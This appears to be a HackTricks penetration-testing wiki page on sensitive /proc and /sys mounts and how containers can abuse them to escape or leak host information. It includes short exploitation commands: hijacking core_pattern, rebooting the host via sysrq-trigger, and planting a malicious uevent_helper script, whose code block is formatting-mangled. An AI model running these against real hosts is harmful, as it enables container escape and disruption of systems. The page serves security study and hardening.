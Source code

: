 # Sensitive Mounts

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

<figure><img src="../../../../.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

The exposure of `/proc` and `/sys` without proper namespace isolation introduces significant security risks, including attack surface enlargement and information disclosure. These directories contain sensitive files that, if misconfigured or accessed by an unauthorized user, can lead to container escape, host modification, or provide information aiding further attacks. For instance, incorrectly mounting `-v /proc:/host/proc` can bypass AppArmor protection due to its path-based nature, leaving `/host/proc` unprotected.

**You can find further details of each potential vuln in** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Vulnerabilities

### `/proc/sys`

This directory permits access to modify kernel variables, usually via `sysctl(2)`, and contains several subdirectories of concern:

#### **`/proc/sys/kernel/core_pattern`**

* Described in [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Allows defining a program to execute on core-file generation with the first 128 bytes as arguments. This can lead to code execution if the file begins with a pipe `|`.
*   **Testing and Exploitation Example**:

    ```bash
    [ -w /proc/sys/kernel/core_pattern ] && echo Yes # Test write access
    cd /proc/sys/kernel
    echo "|$overlay/shell.sh" > core_pattern # Set custom handler
    sleep 5 && ./crash & # Trigger handler
    ```

#### **`/proc/sys/kernel/modprobe`**

* Detailed in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Contains the path to the kernel module loader, invoked for loading kernel modules.
*   **Checking Access Example**:

    ```bash
    ls -l $(cat /proc/sys/kernel/modprobe) # Check access to modprobe
    ```

#### **`/proc/sys/vm/panic_on_oom`**

* Referenced in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* A global flag that controls whether the kernel panics or invokes the OOM killer when an OOM condition occurs.

#### **`/proc/sys/fs`**

* As per [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), contains options and information about the file system.
* Write access can enable various denial-of-service attacks against the host.

#### **`/proc/sys/fs/binfmt_misc`**

* Allows registering interpreters for non-native binary formats based on their magic number.
* Can lead to privilege escalation or root shell access if `/proc/sys/fs/binfmt_misc/register` is writable.
* Relevant exploit and explanation:
  * [Poor man's rootkit via binfmt\_misc](https://github.com/toffan/binfmt\_misc)
  * In-depth tutorial: [Video link](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Others in `/proc`

#### **`/proc/config.gz`**

* May reveal the kernel configuration if `CONFIG_IKCONFIG_PROC` is enabled.
* Useful for attackers to identify vulnerabilities in the running kernel.

#### **`/proc/sysrq-trigger`**

* Allows invoking Sysrq commands, potentially causing immediate system reboots or other critical actions.
*   **Rebooting Host Example**:

    ```bash
    echo b > /proc/sysrq-trigger # Reboots the host
    ```

#### **`/proc/kmsg`**

* Exposes kernel ring buffer messages.
* Can aid in kernel exploits, address leaks, and provide sensitive system information.

#### **`/proc/kallsyms`**

* Lists kernel exported symbols and their addresses.
* Essential for kernel exploit development, especially for overcoming KASLR.
* Address information is restricted with `kptr_restrict` set to `1` or `2`.
* Details in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Interfaces with the kernel memory device `/dev/mem`.
* Historically vulnerable to privilege escalation attacks.
* More on [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Represents the system's physical memory in ELF core format.
* Reading can leak host system and other containers' memory contents.
* Large file size can lead to reading issues or software crashes.
* Detailed usage in [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Alternate interface for `/dev/kmem`, representing kernel virtual memory.
* Allows reading and writing, hence direct modification of kernel memory.

#### **`/proc/mem`**

* Alternate interface for `/dev/mem`, representing physical memory.
* Allows reading and writing, modification of all memory requires resolving virtual to physical addresses.

#### **`/proc/sched_debug`**

* Returns process scheduling information, bypassing PID namespace protections.
* Exposes process names, IDs, and cgroup identifiers.

#### **`/proc/[pid]/mountinfo`**

* Provides information about mount points in the process's mount namespace.
* Exposes the location of the container `rootfs` or image.

### `/sys` Vulnerabilities

#### **`/sys/kernel/uevent_helper`**

* Used for handling kernel device `uevents`.
* Writing to `/sys/kernel/uevent_helper` can execute arbitrary scripts upon `uevent` triggers.
*   **Example for Exploitation**: %%%bash

    #### Creates a payload

    echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

    #### Finds host path from OverlayFS mount for container

    host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

    #### Sets uevent\_helper to malicious helper

    echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

    #### Triggers a uevent

    echo change > /sys/class/mem/null/uevent

    #### Reads the output

    cat /output %%%

#### **`/sys/class/thermal`**

* Controls temperature settings, potentially causing DoS attacks or physical damage.

#### **`/sys/kernel/vmcoreinfo`**

* Leaks kernel addresses, potentially compromising KASLR.

#### **`/sys/kernel/security`**

* Houses `securityfs` interface, allowing configuration of Linux Security Modules like AppArmor.
* Access might enable a container to disable its MAC system.

#### **`/sys/firmware/efi/vars` and `/sys/firmware/efi/efivars`**

* Exposes interfaces for interacting with EFI variables in NVRAM.
* Misconfiguration or exploitation can lead to bricked laptops or unbootable host machines.

#### **`/sys/kernel/debug`**

* `debugfs` offers a "no rules" debugging interface to the kernel.
* History of security issues due to its unrestricted nature.

### References

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../../.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

